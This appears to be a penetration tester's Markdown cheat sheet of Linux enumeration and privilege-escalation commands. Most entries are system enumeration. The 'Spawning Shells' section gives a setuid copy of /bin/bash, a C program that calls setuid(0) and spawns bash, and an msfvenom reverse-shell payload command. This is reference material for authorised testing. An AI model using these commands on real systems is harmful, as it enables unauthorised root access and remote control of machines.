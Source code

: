 # Basic Enumeration Commands
## Users and Groups 
- `whoami` , `id` 
- `cat /etc/passwd`
- `hostname`

##  OS/Arch
- `cat /etc/issue` 
- `uname -a`

## Processes/Applications
- `ps aux` or `ps aux | grep "^root"`
- `dpkg -l`
- `rpm -qa` 

## Programs/Services
- `{program} --version` or `{program} -v`
- `dpkg -l | grep {program}` or `rpm -qa | grep {program}`

## Enumerating files
- `find / -writable -type d 2>/dev/null` 
- `find /etc -maxdepth 1 -readable -type f`
- `find /etc -maxdepth 1 -writable -type f`
- `find / -type f \( -iname "*.conf" -or -iname "*.config" \)  -writable  -exec ls -lthr "{}" 2>/dev/null  \;`
- `ls -la ~/.ssh`
- binaries with irregular timestamps
    - `for i in /usr/sbin /usr/bin /sbin /bin /snap/bin; do ls -la --time-style=full $i | grep -v '0000\|->' ; done`
    - exclude /local paths because it's not uncommon for users to create binaries in those directories. non-local directories are supposed to be managed by the system package manager.
    - exclude sym links because normal for those timestamps to have non-zero seconds. Packages installed with the system's package manager should have 0's for the seconds in the timestamp.

## Enumerating Scheduled Tasks
- `ls -lah /etc/cron*`
- `cat /etc/crontab`

# Spawning Shells
- duplicate /bin/bash
    - use this method when you have command execution as root (i.e through a vulnerable service) but want a shell
    - `cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash` 
    - `./tmp/rootbash -p`
- C code
    - compile and execute: `gcc -o {name} {filename.c} && ./{name}`
```c
int main() {
setuid(0);
system("/bin/bash -p");
}
```
- msfvenom
    - `msfvenom -p linux/x86/shell_reverse_tcp LHOST={IP} LPORT={PORT} -f elf > shell.elf`

# Other
- check to see if root can ssh
    - `grep PermitRootLogin /etc/ssh/sshd_config`
